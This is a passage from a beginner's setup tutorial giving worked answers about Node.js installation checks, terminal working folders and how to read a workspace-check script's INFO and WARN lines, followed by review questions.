3. Good next checks include: whether Node.js appears in the system's list of installed applications at all, which tells you whether the installation really completed. Whether the installer you ran was the one for your system. Whether restarting the computer changes the result. And, on a work computer, whether your employer's controls blocked part of the installation. If you answered "reinstall it" as the first step in part 2, notice that reinstalling would not have helped: VS Code would still hold the old list.

**D.**

1. That Node.js on the 24 line ran the program. That the path of the kit does not contain the name of a sync service. That a program started by this learner can create, read and delete a file in the kit folder. Nothing else is established. The two INFO lines and the operating system line are facts without a judgment.
2. Node.js will answer `Cannot find module`, with a path that goes straight from `course-work` to `check-workspace.mjs`. When a command names a file without a longer path, the file is looked for in the terminal's current folder, and the program is not in `course-work`. It is two folders further down. The warning said exactly this. "Your workspace is ready" was true: the tools work. The warning was about where this terminal is, and the learner will meet it at the very next command. A WARN is something the report asks you to read, and "three passed" does not cancel it.
3. No. The memory line says INFO, and INFO is a fact without a judgment. The check does not know what the learner's course will ask of the computer. "The check didn't complain" is true, and it is not the same as "the check found it to be enough". If you answered yes, look again at the right-hand column of the table in Section 7.

## 9. What you should be able to explain now

Close the lesson for a moment and explain to an imaginary friend who is about to install something:

- When you start a program, whose permissions does it have, and what follows from that?
- What are the three questions, and which one matters most when you cannot read the program yourself?
- What is the difference between a ZIP file and the folder you get by extracting it?
- Why can a brand-new terminal in VS Code fail to find a program that was installed correctly a minute ago?
- The workspace check printed "4 passed". What exactly do you know, and what do you not know?

You are ready for the next lesson when you can answer these in your own words and your workspace check shows no FAIL line. Keep the kit folder where it is, and change nothing in it. The next lesson uses the same kit to practise the most useful skill in all of setup work: what to do, calmly and in order, when something goes wrong.
